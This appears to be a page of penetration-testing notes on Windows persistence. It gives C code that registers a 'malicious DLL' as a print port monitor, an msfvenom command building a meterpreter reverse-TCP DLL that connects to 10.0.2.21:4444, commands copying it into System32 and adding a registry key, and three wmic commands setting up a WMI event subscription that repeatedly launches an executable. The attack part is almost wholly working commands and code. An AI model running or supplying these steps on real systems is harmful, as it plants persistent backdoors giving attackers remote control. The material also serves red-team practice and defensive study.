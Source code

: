 # Port Monitors

The following code can be compiled to produce an executable called Monitors.exe that will perform the registration of the malicious DLL.

```
#include "Windows.h"
 
int main() {
    MONITOR_INFO_2 monitorInfo;
    TCHAR env[12] = TEXT("Windows x64");
    TCHAR name[12] = TEXT("Monitor");
    TCHAR dll[12] = TEXT("test.dll");
    monitorInfo.pName = name;
    monitorInfo.pEnvironment = env;
    monitorInfo.pDLLName = dll;
    AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
    return 0;
}
```

The DLL can be generated through Metasploit utility msfvenom by executing the following command:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.2.21 LPORT=4444 -f dll > test.dll
```
The DLL needs to be copied into the System32 windows folder:
```
copy C:\Users\pentestlab\Desktop\test.dll C:\Windows\System32
```
From the command prompt executing the following application will perform the registration of the arbitrary DLL.
```
Monitors.exe
```
Persistence is achieved by creating the following registry key:
```
reg add "hklm\system\currentcontrolset\control\print\monitors\Pentestlab" /v "Driver" /d "test.dll" /t REG_SZ
```
# WMI Event Subscription 

TODO

```
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="PentestLab", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="PentestLab", ExecutablePath="C:\Windows\System32\pentestlab.exe",CommandLineTemplate="C:\Windows\System32\pentestlab.exe"
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"PentestLab\"", Consumer="CommandLineEventConsumer.Name=\"PentestLab\""
```

TODO
